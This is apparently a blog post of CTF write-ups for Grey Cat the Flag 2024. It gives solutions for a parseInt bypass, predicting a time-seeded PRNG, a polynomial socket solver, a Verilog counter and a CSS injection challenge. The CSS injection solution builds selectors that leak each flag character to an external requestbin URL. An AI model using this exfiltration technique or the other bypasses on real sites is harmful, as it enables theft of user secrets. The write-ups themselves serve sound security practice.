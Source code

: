 ```yaml
---
title: "Write-ups for Grey Cat the Flags CTF 2024"
date: 2024-04-21T14:46:00+0800
tags: ["writeups"]
author: "Shang En"
showToc: false
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "I'm rusty..."
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
---
```


## Greyctf Survey

Refer to: [MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt)

> In general, it's a bad idea to use parseInt() on non-strings, especially to use it as a substitution for Math.trunc(). It may work on small numbers:
> ```js
> parseInt(15.99, 10); // 15
> parseInt(-15.1, 10); // -15
> ```
> However, it only happens to work because the string representation of these numbers uses basic fractional notation (`"15.99"`, `"-15.1"`), where `parseInt()` stops at the decimal point. Numbers greater than or equal to 1e+21 or less than or equal to 1e-7 use exponential notation (`"1.5e+22"`, `"1.51e-8"`) in their string representation, and `parseInt()` will stop at the `e` character or decimal point, which always comes after the first digit. This means for large and small numbers, `parseInt()` will return a one-digit integer:
> ```js
> parseInt(4.7 * 1e22, 10); // Very large number becomes 4
> parseInt(0.00000000000434, 10); // Very small number becomes 4
> ```


### Relevant Source Code

```js
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})
```

### Solution

`POST` `{"vote": 0.00000000000434}` to `/vote`

## All About Timing

Since the PRNG is seeded with the current time, we just have to seed our PRNG with the current time and connect to the server and call `random.randint`.

```py
import time
import random
import socket

random.seed(int(time.time()))

n = random.randint(1000000000000000, 10000000000000000 - 1)

# Send the number to the client via socket
# nc challs.nusgreyhats.org 31111

HOST = "challs.nusgreyhats.org"
PORT = 31111

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    data = s.recv(1024)
    s.sendall(f"{n}\n".encode())
    data = s.recv(1024)


print("Received", repr(data))
```

## Poly Playground

This challenge is an exercise in socket programming and regular expressions.

### Solution

```py
import socket
import re

HOST = "challs.nusgreyhats.org"
PORT = 31113
PATTERN = "Roots:\s*((?:-?\d+,?\s*)+)"


def polynomial_from_roots(roots):
    # For a single root, the polynomial is (x - root), hence coefficients [1, -root]
    # Coefficients of the resulting polynomial, starting as 1 (for x^0)
    coeffs = [1]

    for root in roots:
        # Current root to process, start with x - root = (1)x + (-root)
        current = [1, -root]
        # Temporary new coefficients, initialized to zero and length of (len(coeffs) + len(current) - 1)
        new_coeffs = [0] * (len(coeffs) + 1)

        # Multiply out the polynomials using the distributive property (convolution)
        for i in range(len(coeffs)):
            for j in range(len(current)):
                new_coeffs[i + j] += coeffs[i] * current[j]

        # Update coeffs to new_coeffs
        coeffs = new_coeffs

    return coeffs


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    data = s.recv(4096)
    data = data.decode().strip()
    match = re.search(PATTERN, data)
    roots = [int(match.group(1))]
    print("Roots:", roots)
    results = polynomial_from_roots(roots)
    results = [str(result) for result in results]
    print("Results:", ",".join(results))
    s.sendall(str(",".join(results)).encode())
    s.sendall(b"\n")

    while True:
        data = s.recv(4096)
        print(data.decode())
        data = data.decode().strip()
        match = re.search(PATTERN, data)
        roots = str(match.group(1)).split(",")
        roots = [int(root) for root in roots]
        print("Roots:", roots)
        results = polynomial_from_roots(roots)
        results = [str(result) for result in results]
        print("Results:", ",".join(results))
        s.sendall(str(",".join(results)).encode())
        s.sendall(b"\n")
```

## Beautiful Styles

Classic [CSS Injection Attack](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection).

### Solution

```py
# Digits, uppercase letters
# As given in the challenge description
CHARSET = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZf"

output = ""

for c in CHARSET:
    text = f"""
input[id=flag][value^="grey{{X5S34RCH1fY0UC4NF1ND1T{c}"]{{ # Update this as you find each char through the requestbin
    background-image: url(https://en9qepifcn9k.x.pipedream.net/{c});
}}
    """

    output += text

with open("output.txt", "w") as f:
    f.write(output)
```

## Verilog

We are asked to write a Verilog program for the Icarus Verilog simulator. We are not allowed to use conditionals (`if`, `else`) and addition (`+`) or ternary operators (`?`).

But we are allowed to use the subtraction (`-`) operator.

The predefined testbench setup requires us to have an input clock `clk` and output 32 bits.

### Solution

```verilog
module counter(
    input clk,
    output reg [31:0] result
);

    reg [31:0] next_count;

    initial begin
        result = 32'd0;
    end

    always @(posedge clk) begin
        result <= result - (-1);
    end

endmodule
```
